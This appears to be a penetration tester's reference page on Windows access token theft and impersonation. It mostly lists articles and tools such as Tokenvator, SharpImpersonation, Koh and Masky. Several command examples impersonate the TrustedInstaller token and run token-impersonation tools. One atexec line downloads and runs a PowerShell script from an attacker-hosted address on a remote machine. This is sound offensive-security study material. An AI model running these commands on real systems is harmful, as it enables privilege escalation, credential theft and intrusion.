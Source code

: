 # Token Manipulation

- [https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b](https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b)
- [https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa](https://securitytimes.medium.com/understanding-and-abusing-process-tokens-part-i-ee51671f2cfa)
- [https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962](https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962)
- [https://xret2pwn.github.io//Access-Token-Part0x01/](https://xret2pwn.github.io//Access-Token-Part0x01/)
- [https://xret2pwn.github.io//Building-Token-Vault-Part0x02/](https://xret2pwn.github.io//Building-Token-Vault-Part0x02/)
- [https://rastamouse.me/token-impersonation-in-csharp/](https://rastamouse.me/token-impersonation-in-csharp/)
- [https://xakep.ru/2022/12/06/win-api-secrets/](https://xakep.ru/2022/12/06/win-api-secrets/)
- [https://ardent101.github.io/posts/tokens_theory/](https://ardent101.github.io/posts/tokens_theory/)
- [https://habr.com/ru/articles/776298/](https://habr.com/ru/articles/776298/)
- [https://offensivedefence.co.uk/posts/nt-token-theft/](https://offensivedefence.co.uk/posts/nt-token-theft/)
- [[PDF] Technical Analysis of Access Token Theft and Manipulation (McAfee)](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)

![Access Token Theft and Manipulation (McAfee)](/.gitbook/assets/011.png)




## Trusted Installer Token

- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1)
- [https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1](https://github.com/rweijnen/Posh-Snippets/blob/master/DCOM-FixUp.ps1)

```
PS > Install-Module -Name NtObjectManager -Confirm:$false
PS > Restart-Service TrustedInstaller
PS > $procId = (Get-Process TrustedInstaller).Id
PS > $token = Get-NtTokenFromProcess -ProcessId $procId
PS > $current = Get-NtThread -Current -PseudoHandle
PS > $ctx = $current.Impersonate($token)
PS > $impToken = Get-NtToken -Impersonation
PS > $impToken.Groups
```




## Impersonate to Request an ST

- [https://github.com/foxlox/GIUDA](https://github.com/foxlox/GIUDA)
- [https://github.com/MzHmO/TGSThief](https://github.com/MzHmO/TGSThief)




## Tools

- [https://github.com/dievus/msImpersonate](https://github.com/dievus/msImpersonate)
- [https://github.com/magnusstubman/tokenduplicator](https://github.com/magnusstubman/tokenduplicator)



### Tokenvator

- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/)
- [https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/](https://www.netspi.com/blog/technical/adversary-simulation/tokenvator-release-2/)
- [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)



### SharpImpersonation

- [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- [https://github.com/S3cur3Th1sSh1t/SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation)

```
PS > .\SharpImpersonation.exe list [elevated]
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash binary:"powershell.exe whoami"
PS > .\SharpImpersonation.exe list user:PC01\snovvcrash technique:ImpersonateLoggedOnuser
```



### Koh

- [https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6](https://posts.specterops.io/koh-the-token-stealer-41ca07a40ed6)
- [https://github.com/GhostPack/Koh](https://github.com/GhostPack/Koh)



### Masky

- [https://z4ksec.github.io/posts/masky-release-v0.0.3/](https://z4ksec.github.io/posts/masky-release-v0.0.3/)
- [https://github.com/Z4kSec/Masky](https://github.com/Z4kSec/Masky)
- [https://threadreaderapp.com/thread/1563247630129725442.html](https://threadreaderapp.com/thread/1563247630129725442.html)

Combining with AD CS abuse:

{% content-ref url="/pentest/infrastructure/ad/ad-cs-abuse/README.md" %}
[README.md](README.md)
{% endcontent-ref %}

```
$ pipx install -f 'git+https://github.com/Z4kSec/Masky.git'
$ masky -d tinycorp -u snovvcrash -p 'Passw0rd!' -ca 'CA01.megacorp.local\CorpCA' -dc-ip 192.168.1.11 10.10.13.37
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iex(new-object net.webclient).downloadstring(""""http://10.10.13.37/Invoke-Masky.ps1"""");Invoke-Masky /ca:CA01.megacorp.local\CorpCA'
```



### Impersonate

- [https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/)
- [https://github.com/sensepost/impersonate](https://github.com/sensepost/impersonate)
- [https://github.com/zblurx/impersonate-rs](https://github.com/zblurx/impersonate-rs)
